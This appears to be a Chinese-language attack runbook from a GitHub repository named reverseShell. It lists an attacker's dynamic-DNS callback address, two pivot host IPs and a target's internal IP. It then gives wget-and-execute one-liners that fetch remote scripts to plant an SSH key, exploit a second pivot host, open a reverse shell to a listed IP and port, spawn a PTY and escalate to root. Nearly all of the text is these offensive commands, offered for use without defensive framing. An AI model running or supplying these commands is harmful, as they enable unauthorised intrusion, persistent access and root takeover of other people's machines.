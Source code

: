 ## 攻击机接受反弹shell的地址
ddns.randomhhh.top:9000  经本地路由器端口转发后的端口为 4444

## 跳板机1 ip
34.92.246.183
## 跳板机2 ip
35.220.174.61

## 目标主机的内网ip
10.170.0.3

# 拿下跳板机1后攻击流程的指令
### 下载addKey.sh 修改权限， 执行，配置主机的ssh公钥，用于ssh登录
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/addkey.sh && chmod 755 ./addkey.sh && ./addkey.sh 
### 下载exploitFirst.py 执行，攻击跳板机2
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/exploitFirst.py && python exploitFirst.py
### webshell内下载reverse1.sh 修改权限，反弹shell到 34.92.246.183:4444
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse1.sh && chmod 755 ./reverse1.sh && ./reverse1.sh
### 下载getPty.py ,执行,获取pty
wget wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/getPty.py && python getPty.py
### 下载upRight.sh, 修改权限，执行，提权至root
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/upRight.sh && chmod 755 ./upRight.sh && ./upRight.sh
